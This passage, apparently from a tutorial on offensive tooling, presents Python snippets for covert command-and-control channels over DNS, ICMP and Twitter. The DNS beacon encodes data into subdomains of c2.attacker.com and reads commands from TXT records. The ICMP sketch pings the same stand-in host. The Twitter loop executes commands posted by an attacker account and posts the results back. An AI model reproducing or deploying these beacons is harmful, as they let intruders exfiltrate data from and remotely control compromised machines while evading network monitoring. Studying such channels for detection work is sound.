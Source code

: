 #### 2. DNS

Covert channel using DNS queries.

```python
# DNS C2 beacon
import dns.resolver

def dns_beacon(data):
    # Encode data in subdomain
    encoded = base64.b64encode(data.encode()).decode()
    domain = f"{encoded}.c2.attacker.com"
    
    # Query DNS
    try:
        answers = dns.resolver.resolve(domain, 'TXT')
        # Command in TXT record
        return str(answers[0]).strip('"')
    except:
        return None
```

#### 3. ICMP

Using ping packets for C2.

```python
# ICMP C2
from scapy.all import *

def icmp_beacon():
    # Send ICMP with data in payload
    packet = IP(dst="c2.attacker.com")/ICMP()/Raw(load="beacon_data")
    response = sr1(packet, timeout=2)
    
    if response:
        return response[Raw].load
```

#### 4. Social Media

Using platforms as C2 channels.

```python
# Twitter C2 (example concept)
import tweepy

def twitter_c2():
    # Monitor specific hashtag for commands
    for tweet in tweepy.Cursor(api.search_tweets, q="#c2commands").items():
        if tweet.user.screen_name == "attacker_account":
            command = decode_command(tweet.text)
            result = execute_command(command)
            
            # Post results as reply
            api.update_status(f"@attacker_account {encode_result(result)}")
```
